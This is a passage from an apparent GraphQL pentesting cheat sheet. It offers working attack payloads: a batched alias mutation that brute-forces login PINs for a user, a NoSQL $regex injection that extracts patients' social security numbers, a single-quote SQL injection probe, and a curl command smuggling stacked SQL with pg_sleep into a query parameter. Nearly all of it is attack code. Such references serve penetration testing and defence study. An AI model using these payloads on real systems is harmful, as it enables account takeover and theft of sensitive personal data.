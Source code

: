 ```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```


## Injections

> SQL and NoSQL Injections are still possible since GraphQL is just a layer between the client and the database.


### NOSQL Injection

Use `$regex`, `$ne` from []() inside a `search` parameter.

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL Injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```


## Labs
